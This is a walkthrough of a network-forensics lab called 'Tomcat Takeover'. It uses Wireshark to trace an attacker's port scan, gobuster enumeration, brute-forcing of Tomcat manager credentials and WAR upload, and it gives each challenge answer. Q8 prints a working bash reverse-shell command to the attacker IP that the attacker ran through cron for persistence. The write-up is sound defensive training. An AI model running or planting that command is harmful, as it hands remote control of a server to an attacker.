








> # Tomcat Takeover

## Summary
- [Summary](#summary)
  - [Q1. Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?](#q1-given-the-suspicious-activity-detected-on-the-web-server-the-pcap-analysis-shows-a-series-of-requests-across-various-ports-suggesting-a-potential-scanning-behavior-can-you-identify-the-source-ip-address-responsible-for-initiating-these-requests-on-our-server)
  - [Q2. Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?](#q2-based-on-the-identified-ip-address-associated-with-the-attacker-can-you-ascertain-the-city-from-which-the-attackers-activities-originated)
  - [Q3. From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?](#q3-from-the-pcap-analysis-multiple-open-ports-were-detected-as-a-result-of-the-attackers-activitie-scan-which-of-these-ports-provides-access-to-the-web-server-admin-panel)
  - [Q4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?](#q4-following-the-discovery-of-open-ports-on-our-server-it-appears-that-the-attacker-attempted-to-enumerate-and-uncover-directories-and-files-on-our-web-server-which-tools-can-you-identify-from-the-analysis-that-assisted-the-attacker-in-this-enumeration-process)
  - [Q5. Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?](#q5-subsequent-to-their-efforts-to-enumerate-directories-on-our-web-server-the-attacker-made-numerous-requests-trying-to-identify-administrative-interfaces-which-specific-directory-associated-with-the-admin-panel-was-the-attacker-able-to-uncover)
  - [Q6. Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?](#q6-upon-accessing-the-admin-panel-the-attacker-made-attempts-to-brute-force-the-login-credentials-from-the-data-can-you-identify-the-correct-username-and-password-combination-that-the-attacker-successfully-used-for-authorization)
  - [Q7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?](#q7-once-inside-the-admin-panel-the-attacker-attempted-to-upload-a-file-with-the-intent-of-establishing-a-reverse-shell-can-you-identify-the-name-of-this-malicious-file-from-the-captured-data)
  - [Q8. Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?](#q8-upon-successfully-establishing-a-reverse-shell-on-our-server-the-attacker-aimed-to-ensure-persistence-on-the-compromised-machine-from-the-analysis-can-you-determine-the-specific-command-they-are-scheduled-to-run-to-maintain-their-presence)

### Q1. Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?
Go to `Statistics > Conversations` and select the `TCP` tab, then sort port B. You will the IP address that perform network scanning. 
 
**Answer:** 14.0.0.120

### Q2. Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?
Use [IP2Location](https://ip2location.com) to find the city of the attacker. 
 
**Answer:** Guangzhou

### Q3. From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?
The web server admin panel of Apache Tom cat is `/manager`, so we need find the request to this URI. 
 
The URI that need to find at port 8080. 
**Answer:** 8080

### Q4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
If the attacker attemps to discovery hidden directory on the server, the server will return multiple response with status code 404, so we will filter this to find the User-Agent sent from the attacker. 
 
The tool was used by the attacker is `gobuster`. 
**Answer:** gobuster

### Q5. Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?
From the Q3. 
**Answer:** /manager

### Q6. Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?
If you try to filter `POST` request, there is only one request, so it maybe authen via http prompt popup. 
Go to `Analysis -> Expert Information`, you will see there are multiple request that have respone with Unauthorization and the last is 200 OK. Go to packet 20553. 
 
Decode the value in `Authorization` field. 
 
**Answer:** admin:tomcat

### Q7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?
Filter POST request, you will see the filename of attacker's file. 
 
**Answer:** JXQOZY.war

### Q8. Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?
The attacker create cronjob to run the below command on the webserver. 
 
**Answer:** /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
